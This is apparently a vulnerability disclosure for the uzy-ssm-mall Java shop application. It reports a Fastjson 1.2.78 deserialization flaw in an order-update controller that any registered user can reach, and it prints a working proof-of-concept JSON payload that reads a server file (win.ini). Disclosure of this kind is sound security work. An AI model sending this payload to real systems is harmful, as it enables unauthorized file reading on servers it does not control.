



# **[uzy-ssm-mall](https://github.com/ghostxbh/uzy-ssm-mall)** has a Fastjson deserialization vulnerability that an attacker can exploit by registering any ordinary user

Fastjson version 1.2.78 has a vulnerability：



com.uzykj.mall.controller.ForeOrderController#updateOrderItem() directly deserializes the request body：



Aspectj file reading poc：

```javap
[{
   "@type":"java.lang.Exception",
   "@type":"org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
},
   {
      "@type":"java.lang.Class",
      "val":{
         "@type":"java.lang.String"{
      "@type":"java.util.Locale",
      "val":{
         "@type":"com.alibaba.fastjson.JSONObject",{
      "@type":"java.lang.String"
      "@type":"org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException",
      "newAnnotationProcessorUnits":[]
   }
}
},
   {
    "@type":"java.lang.Character"
    {
        "c":{
            "@type":"org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
            "@type":"org.eclipse.jdt.internal.compiler.batch.CompilationUnit",
            "fileName":"c:/windows/win.ini"
    }
}]
```

Successfully echoed the file content：

